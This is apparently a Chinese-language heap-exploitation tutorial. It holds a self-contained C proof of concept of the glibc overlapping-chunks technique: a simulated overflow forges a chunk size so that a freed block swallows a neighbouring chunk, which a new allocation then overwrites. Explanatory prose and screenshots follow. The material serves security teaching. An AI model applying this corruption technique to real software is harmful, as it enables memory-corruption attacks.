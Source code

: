  ```c
   real_size_p5 = malloc_usable_size(p5);
 
   fprintf(stderr, "\nchunk p1 从 %p 到 %p", p1, (unsigned char *)p1+malloc_usable_size(p1));
   fprintf(stderr, "\nchunk p2 从 %p 到 %p", p2,  (unsigned char *)p2+malloc_usable_size(p2));
   fprintf(stderr, "\nchunk p3 从 %p 到 %p", p3,  (unsigned char *)p3+malloc_usable_size(p3));
   fprintf(stderr, "\nchunk p4 从 %p 到 %p", p4, (unsigned char *)p4+malloc_usable_size(p4));
   fprintf(stderr, "\nchunk p5 从 %p 到 %p\n", p5,  (unsigned char *)p5+malloc_usable_size(p5));
 
   memset(p1,'A',real_size_p1);
   memset(p2,'B',real_size_p2);
   memset(p3,'C',real_size_p3);
   memset(p4,'D',real_size_p4);
   memset(p5,'E',real_size_p5);
   
   fprintf(stderr, "\n释放掉堆块 p4，在这种情况下不会用 top chunk 合并\n");
   free(p4);
 
   fprintf(stderr, "\n假设 p1 上的漏洞，该漏洞会把 p2 的 size 改成 p2+p3 的 size\n");
   *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2;
   fprintf(stderr, "\nfree p2 的时候分配器会因为 p2+p2.size 的结果指向 p4，而误以为下一个 chunk 是 p4\n");
   fprintf(stderr, "\n这样的话将会 free 掉的 p2 将会包含 p3\n");
   free(p2);
   
   fprintf(stderr, "\n现在去申请 2000 大小的 chunk p6 的时候，会把之前释放掉的 p2 与 p3 一块申请回来\n");
   p6 = malloc(2000);
   real_size_p6 = malloc_usable_size(p6);
 
   fprintf(stderr, "\nchunk p6 从 %p 到 %p", p6,  (unsigned char *)p6+real_size_p6);
   fprintf(stderr, "\nchunk p3 从 %p 到 %p\n", p3, (unsigned char *) p3+real_size_p3);
 
   fprintf(stderr, "\np3 中的内容: \n\n");
   fprintf(stderr, "%s\n",(char *)p3);
 
   fprintf(stderr, "\n往 p6 中写入\"F\"\n");
   memset(p6,'F',1500);
 
   fprintf(stderr, "\np3 中的内容: \n\n");
   fprintf(stderr, "%s\n",(char *)p3);
 }
 ```

​    我们需要五个堆块，假设第chunk 1存在溢出，可以改写第二个chunk 2的数据，chunk 5的作用是防止释放chunk 4后,被合并进top chunk。所以我们要重叠的区域是chunk 2到chunk 4。

   首先申请5个chunk，分别是p1，p2，p3，p4，p5。

 ![image-20211226161410128](/assets/wgpsec/images/heap/image-20211226161410128.png)

   然后free掉p4，p4被放入unsorted bin。

 ![image-20211226161415878](/assets/wgpsec/images/heap/image-20211226161415878.png)
